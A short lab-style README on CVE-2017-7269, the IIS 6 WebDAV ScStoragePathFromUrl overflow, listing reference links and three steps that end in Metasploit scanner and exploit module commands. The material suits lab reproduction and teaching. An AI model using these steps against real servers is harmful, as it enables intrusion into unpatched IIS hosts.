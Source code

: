 
CVE-2017-7269  |  Microsoft IIS WebDav ScStoragePathFromUrl Overflow

https://www.youtube.com/watch?v=yBFufHyDXiU

------------------

Microsoft IIS WebDav ScStoragePathFromUrl Overflow

https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl

------------------

IIS 6 and Windows 2003 setup for WebDAV

http://seanashton.net/webdav/iis6/

Using WebDAV with IIS

http://techgenix.com/webdav-iis/

------------------

1. Enable WebDAV

2. Check WebDAV enabled/disabled

> use auxiliary/scanner/http/webdav_scanner

3. Exploit

> use exploit/windows/iis/iis_webdav_scstoragepathfromurl

